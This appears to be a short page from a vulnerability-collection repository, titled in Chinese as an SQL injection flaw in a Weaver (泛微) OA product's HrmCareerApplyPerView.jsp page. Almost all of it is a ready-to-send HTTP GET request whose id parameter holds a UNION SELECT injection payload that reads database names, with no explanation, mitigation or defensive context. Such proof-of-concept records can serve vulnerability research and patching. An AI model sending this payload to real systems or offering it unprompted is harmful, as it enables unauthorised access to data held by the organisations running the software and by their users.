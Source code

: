 # 泛微 HrmCareerApplyPerView sql注入漏洞

## 泛微 HrmCareerApplyPerView sql注入漏洞
```
GET
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(db_name()),db_name(1),5,6,7 HTTP/1.1
Host: 127.0.0.1:7443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,like Gecko)
Accept-Encoding: gzip, deflate
Connection: close

```

